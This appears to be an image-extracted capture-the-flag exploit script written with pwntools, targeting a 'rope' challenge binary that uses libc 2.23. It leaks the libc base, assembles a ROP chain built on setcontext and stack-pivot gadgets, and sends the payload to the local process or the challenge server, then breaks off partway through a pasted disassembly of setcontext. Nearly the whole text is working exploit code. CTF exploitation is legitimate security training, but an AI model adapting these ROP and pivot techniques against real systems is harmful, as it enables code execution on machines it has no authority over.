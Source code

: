 Here is the exploit:

```python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("./vuln_patched")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")

# change -l0 to -l1 for more gadgets
def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', '-l0', filename]).decode().split(' ')]

rop = ROP(exe)

host, port = "rope.chal.imaginaryctf.org", "1337"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)

p.recvuntil('0x',drop=True)
libc.address = int(p.recvuntil('\n',drop=True),16) - libc.sym['puts']
print('libc base = '+hex(libc.address))
rop = ROP(libc)

pivot = libc.address + 0x000000000007a35d #  mov rax, qword ptr [rdi + 0xd8] ; call qword ptr [rax + 0x48]
pivot2 = libc.address + 0x0000000000136b63 # mov rdi, qword ptr [rax] ; mov rax, qword ptr [rdi + 0x38] ; call qword ptr [rax + 0x20]
syscall = rop.find_gadget(['syscall', 'ret'])[0]
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rdx = rop.find_gadget(['pop rdx', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
pop_rax = rop.find_gadget(['pop rax', 'ret'])[0]
xchg_edx_eax = libc.address + 0x0000000000145b07 # xchg edx, eax ; sub eax, edx ; ret
xchg_eax_edi = libc.address + 0x00000000000fe229 # xchg eax, edi; lea ebp, [rax + rax]; lea rax, [rip + 0x2c8d64]; ret;
ret = rop.find_gadget(['ret'])[0]

payload = p64(0x404040)+p64(0)*3+p64(libc.sym['setcontext']+53)+p64(0)*2+p64(0x404040)+p64(0)+p64(pivot2)
payload += p64(0)*3
payload += p64(0)+p64(0x404000)+p64(0xdeadbeef)*2+p64(0x100)+p64(0)*2+p64(0x404010)+p64(syscall)

p.sendline(payload)

p.sendline(str(libc.address+0x5f0040+3848))
p.sendline(str(libc.sym['gets']))

# We will use the setcontext gadget which we will use to pivot on buffer pointed by rdi
'''
Dump of assembler code for function setcontext:
   0x00007f0360916b50 <+0>:	push   rdi
   0x00007f0360916b51 <+1>:	lea    rsi,[rdi+0x128]
   0x00007f0360916b58 <+8>:	xor    edx,edx
   0x00007f0360916b5a <+10>:	mov    edi,0x2
   0x00007f0360916b5f <+15>:	mov    r10d,0x8
```